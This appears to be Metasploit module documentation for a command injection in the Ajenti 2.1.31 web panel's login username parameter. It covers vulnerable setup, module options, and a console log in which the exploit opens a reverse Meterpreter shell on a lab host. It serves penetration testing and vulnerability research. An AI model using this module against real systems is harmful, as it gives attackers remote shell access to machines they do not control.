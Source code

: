 ## Description

This module exploits a command injection in Ajenti == 2.1.31. By injecting a command into the username POST parameter to api/core/auth, a shell can be spawned.

## Vulnerable Application

This module has been tested with [Ajenti 2.1.31](https://pypi.org/project/ajenti-panel/2.1.31/#files)

### Setup

1. `sudo pip install ajenti-panel==2.1.31 ajenti.plugin.dashboard ajenti.plugin.settings ajenti.plugin.plugins`
2. `ajenti-panel -v`

## Verification Steps

  1. `use exploit/unix/webapp/ajenti_auth_username_cmd_injection`
  2. `set RHOSTS <rhost>`
  3. `set LHOST <lhost>`
  4. `exploit`

## Options

**RPORT**

Set this to the Ajenti port. The default is 8000.

**TARGETURI**

Set this to the Ajenti base path. The default is `/`.


## Scenarios

### Tested Ajenti 2.1.31 on Ubuntu 19.10 x64

```
msf > use exploit/unix/webapp/ajenti_auth_username_cmd_injection
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set RHOSTS 172.16.172.135
RHOSTS => 172.16.172.135
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > exploit

[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (53755 bytes) to 172.16.172.135
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.135:53170) at 2019-11-18 19:51:04 +0300

meterpreter >

```
